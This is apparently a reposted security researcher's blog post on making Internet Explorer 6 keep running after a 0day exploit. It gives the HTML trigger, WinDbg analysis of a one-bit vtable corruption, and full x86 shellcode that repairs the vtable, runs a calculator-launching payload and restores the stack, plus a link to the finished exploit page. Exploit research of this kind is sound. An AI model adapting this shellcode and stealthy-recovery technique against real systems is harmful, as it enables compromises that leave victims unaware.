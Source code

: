 ```yaml
---
layout: post
title: "Process continuation after exploit (aka. IE is my process launcher)"
description: ""
category:
tags: [exploit, process continuation, shellcode]
---
```


This is an old post from one of my old blogs so reposting here for eternity (not one of the most elegant teks, looking at you Seba from the past).

Last week another 0day was discovered in the wild exploiting Internet Explorer. And as the bug wasn’t hard
to trigger/exploit in IE 6, I thought that it would be good to add another decoration to this exploit.
As last week I was also talking to some friends about why exploit writers are not interested on recovering process (or why don’t they do it), I decided to write this post.
Here will describe how to make IE6 continue after it has been successfully exploited using last 0day bug.

The trigger for the bug is: `<table style="position: absolute; clip: rect(0);">`

When we trigger the bug we see that we are using a defaced vtable, in my IE, i see that the jump comes from `EnsureDispNodeBackground`:

```
0:000> ub 7dcb1c3f
mshtml!CLayout::EnsureDispNodeBackground+0x81:
7dcb1c2d 33f6            xor     esi,esi
7dcb1c2f 46              inc     esi
7dcb1c30 56              push    esi
7dcb1c31 8bcf            mov     ecx,edi
7dcb1c33 e813e2ffff      call    mshtml!CDispNode::SetBackground (7dcafe4b)
7dcb1c38 8b07            mov     eax,dword ptr [edi] ;<-- pointer to chaos
7dcb1c3a 8bcf            mov     ecx,edi
7dcb1c3c ff5030          call    dword ptr [eax+30h]
```

As you can see, the object is in edi, so it takes the vtable from object[0] and then dereferences vtable+0×30 to get the function.

After some research discovered that the vtable address was being overwritten by the function `CDispNode::SetUserClip` when trying to set a flag on a miscalculated address.

```
mshtml!CDispNode::SetUserClip+0x84:
7dd8b5d0 e8b4ddffff      call    mshtml!CRect::RestrictRange (7dd89389)
7dd8b5d5 8b4704          mov     eax,dword ptr [edi+4]
7dd8b5d8 23c6            and     eax,esi
7dd8b5da 0fb688101cc37d  movzx   ecx,byte ptr mshtml!CDispNode::_extraSizeTable (7dc31c10)[eax]
7dd8b5e1 8bc7            mov     eax,edi
7dd8b5e3 c1e102          shl     ecx,2
7dd8b5e6 2bc1            sub     eax,ecx
7dd8b5e8 830801          or      dword ptr [eax],1 ;<-- the address of the vtable is on *eax
```

The main idea of autorecovering exploits is that we can give the process the same state that it had before being exploited and this bug is perfect for this!.
The only corruption we have when the bug is triggered is 1 bit (afaik). We don’t really know if the vtable of the object is used again, but we are gonna fix it and set eax to 0 (the function failed).

I have used this shellcode (w32-exec-calc-shellcode)[http://code.google.com/p/w32-exec-calc-shellcode/] , greets to berendjanwever for being first on google when searching calc shellcode and having a working one, you deserve the mention!
I have not made any modification to it, just added a prologue and epilogue to save/recover the state.

```
BITS 32

;;; lets patch vtable address
and dword [edi], 0xFFFFFFFE
;;; save registers
pushad
;;; push a mark on the stack
;;; (lazy stack recovery after the payload is executed)
push 0xdead1337
;; here starts the shellcode for launching the calculator
;;  ============================================
xor esi,esi
push esi
mov esi,[fs:esi+0x30]
mov esi,[esi+0xc]
mov esi,[esi+0x1c]
l1:
mov ebp,[esi+0x8]
mov esi,[esi]
mov ebx,[ebp+0x3c]
mov ebx,[ebp+ebx+0x78]
add ebx,ebp
mov ecx,[ebx+0x18]
jcxz l1
l2:
mov edi,[ebx+0x20]
add edi,ebp
mov edi,[edi+ecx*4-0x4]
add edi,ebp
xor eax,eax
cdq
l3:
xor dl,[edi]
ror dx,0x1
scasb
jnz l3
cmp dx,0xf510
loopne l2
jnz l1
mov edx,[ebx+0x24]
add edx,ebp
movzx edx,word [edx+ecx*2]
mov edi,[ebx+0x1c]
add edi,ebp
add ebp,[edi+edx*4]
push dword 0x6578652e
push dword 0x636c6163
push esp
xchg eax,[esp]
push eax
call ebp
;;  ============================================
;;; then recover stack, search for our mark
l10:
    pop eax
    cmp eax, 0xdead1337
    jne l10
;;; restore registers
popad
;;; return from the function with error
xor eax,eax
;;; if the function had arguments we should clean them
;;; depending on the calling convention (not here :-) )
ret
;;; should never reach this point
int3
```

As we can see, recovering from the exploit is not difficult for this bug. Anyways, it could be pretty more difficult when exploiting other bugs that do more memory corruption.

The final working exploit is here: [ie_clip.html](http://snf.github.io/public/data/ie_clip.html) (open at your own risk ;-) ).

And the demo (for not believers) showing the exploit working 3 times and Internet Explorer still working: (http://www.youtube.com/watch?v=dgV9q9Cw0PU)[http://www.youtube.com/watch?v=dgV9q9Cw0PU].

Interesting slides about process continuation:
[User Friendly Exploits](http://www.immunitysec.com/downloads/skylar_cansecwest09.pdf)

Greetz to all my friends and coworkers.
And sorry to all of you who were expecting a spanish post.
